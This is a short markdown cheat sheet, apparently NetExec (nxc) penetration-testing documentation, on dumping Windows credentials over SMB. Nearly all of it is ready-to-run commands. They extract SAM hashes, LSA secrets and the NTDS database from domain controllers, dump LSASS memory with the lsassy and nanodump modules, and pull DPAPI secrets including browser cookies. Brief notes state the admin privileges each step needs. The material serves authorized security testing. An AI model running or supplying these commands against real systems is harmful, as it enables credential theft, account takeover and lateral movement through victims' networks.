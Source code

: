 #credential-dumping

## Dumping SAM

- nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam

## Dumping LSA

Note: Requires Domain Admin or Local Admin Privileges on target Domain Controller

- nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa

# Dumping NTDS

Note: Requires Domain Admin or Local Admin Privileges on target Domain Controller

```
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users --enabled
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
```

- nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil

## Dumping LSASS

Using LSASSY: 

- nxc smb 192.168.255.131 -u administrator -p pass -M lsassy

Using nanodump:

-  nxc smb 192.168.255.131 -u administrator -p pass -M nanodump

## Dumping DPAPI

Note: Need at least local admin privilege on the remote target, use --local-auth if your user is a local account

```
$ nxc smb <ip> -u user -p password --dpapi
$ nxc smb <ip> -u user -p password --dpapi cookies
$ nxc smb <ip> -u user -p password --dpapi nosystem
$ nxc smb <ip> -u user -p password --local-auth --dpapi nosystem
```
